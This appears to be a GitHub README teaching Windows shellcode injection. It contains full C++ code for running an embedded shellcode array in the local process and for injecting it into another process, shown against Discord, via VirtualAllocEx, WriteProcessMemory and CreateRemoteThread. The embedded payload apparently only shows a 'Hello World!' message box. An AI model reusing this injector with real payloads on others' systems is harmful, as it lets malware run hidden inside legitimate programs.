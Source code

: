 # Introduction To Shellcode Injection Technique
![image](https://user-images.githubusercontent.com/107004485/181909423-28de4fc3-ab31-4330-ae55-43ad55d7b142.png)
- I Will Teach You How You Can Do A Shellcode Injector Using [CreateRemoteThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
## What's A Shellcode?
- Shellcode Used Like A Payload To Exploit A Process.
## How Shellcode Injectors Works?
- A Shellcode Injector Allows You To Inject A Shellcode In A Local Process Or A Remote Process.
# How I Can Inject A Shellcode Into A Local Process?
- Source Code Of My Program That Inject Our Shellcode Into A Local Process:
```C++
#include <Windows.h>
#include <iostream>

using namespace std;

int main(void) {

	unsigned char shellcode[] =
		"\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b\x49\x1c"
		"\x8b\x59\x08\x8b\x41\x20\x8b\x09\x80\x78\x0c\x33"
		"\x75\xf2\x8b\xeb\x03\x6d\x3c\x8b\x6d\x78\x03\xeb"
		"\x8b\x45\x20\x03\xc3\x33\xd2\x8b\x34\x90\x03\xf3"
		"\x42\x81\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
		"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03\xf3\x66"
		"\x8b\x14\x56\x8b\x75\x1c\x03\xf3\x8b\x74\x96\xfc"
		"\x03\xf3\x33\xff\x57\x68\x61\x72\x79\x41\x68\x4c"
		"\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd6"
		"\x33\xc9\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
		"\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01\xfe\x4c"
		"\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73"
		"\x54\x50\xff\xd6\x57\x68\x72\x6c\x64\x21\x68\x6f"
		"\x20\x57\x6f\x68\x48\x65\x6c\x6c\x8b\xcc\x57\x57"
		"\x51\x57\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
		"\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74"
		"\x54\x53\xff\xd6\x57\xff\xd0";
    size_t shellcode_sz = sizeof(shellcode);
  
	  void* valloc = VirtualAlloc(0, shellcode_sz, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	  // we will copy shellcode to valloc variable 
	  // shellcode_sz is the number of the characters to copy
	  memcpy(valloc, shellcode, shellcode_sz);
	  // we will send out valloc to a void function pointer  and and calling the void function from the pointer
	  ((void(*)())valloc) ();
	  return 0;
} 
```
  - When You Run The Source Code:
  		
	   ![image](https://user-images.githubusercontent.com/107004485/182494228-31cc6dbe-4e3d-411e-9d12-915f96c5960f.png)
		
  - The Explaination Of My Shellcode Injector In The Comments Of The Code
  	- More Informations About The Functions Used In My Source Code:
  		- [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
  		- [memcpy](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170)
  
  ![image](https://user-images.githubusercontent.com/107004485/182494021-8e3d6ca1-b31a-4a02-80af-82da3ce0181c.png)
# How I Can Inject A Shellcode In A Remote Process Like Discord lol
- Source Code Of My Program That Inject Our Shellcode Into A Remote Process:
```C++
#include "Windows.h"
#include <iostream>

using namespace std;

int main(void){
	unsigned char shellcode[] =
        "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b\x49\x1c"
        "\x8b\x59\x08\x8b\x41\x20\x8b\x09\x80\x78\x0c\x33"
        "\x75\xf2\x8b\xeb\x03\x6d\x3c\x8b\x6d\x78\x03\xeb"
        "\x8b\x45\x20\x03\xc3\x33\xd2\x8b\x34\x90\x03\xf3"
        "\x42\x81\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
        "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03\xf3\x66"
        "\x8b\x14\x56\x8b\x75\x1c\x03\xf3\x8b\x74\x96\xfc"
        "\x03\xf3\x33\xff\x57\x68\x61\x72\x79\x41\x68\x4c"
        "\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd6"
        "\x33\xc9\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
        "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01\xfe\x4c"
        "\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73"
        "\x54\x50\xff\xd6\x57\x68\x72\x6c\x64\x21\x68\x6f"
        "\x20\x57\x6f\x68\x48\x65\x6c\x6c\x8b\xcc\x57\x57"
        "\x51\x57\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
        "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74"
        "\x54\x53\xff\xd6\x57\xff\xd0";

    HANDLE ProcessH;
    PVOID RemoteBuff;
    HANDLE cRemoteThread;
    string szProcess;

    size_t dwSize = sizeof(shellcode);

    DWORD pid = 0000; // the pid of the remote process

    ProcessH = OpenProcess(PROCESS_ALL_ACCESS, false, pid); // To Open An Existing Remote Process

    RemoteBuff = VirtualAllocEx(ProcessH, 0, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(ProcessH, RemoteBuff, shellcode, dwSize, 0); 

    cRemoteThread = CreateRemoteThread(ProcessH, 0, 0, (LPTHREAD_START_ROUTINE)RemoteBuff, 0, 0, 0); // Create A Remote Thread In The Virtual Address Space Of The Remote Process
    
    CloseHandle(ProcessH);
    return EXIT_SUCCESS;
}
```
- More Informations About The Functions Used In My Source Code:
	- [OpenProces()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
	- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
	- [WriteProcessMemory()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
	- [CreateRemoteThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
# I Will Try My Shellcode Injector In Discord HHHHHHHHHHHHHHH
- I Get The PID Of Discord From Process Hacker:
		
	![image](https://user-images.githubusercontent.com/107004485/182499893-a4ce3391-56e1-40bd-98d3-3a179fcb6d47.png)
- The Result:
		
	![image](https://user-images.githubusercontent.com/107004485/182500036-77e0548d-ac25-4d38-b899-feabd5dd6ed6.png)
# End Of Article
- I Hope You Leaned A Lot From This Article, Z
# Some Memes
![image](https://user-images.githubusercontent.com/107004485/182500429-0e961f81-1069-479a-849a-f6b46c2f2a60.png)

![image](https://user-images.githubusercontent.com/107004485/182500518-ff5c0615-f5ec-4b17-a9f7-cbffb22a8b73.png)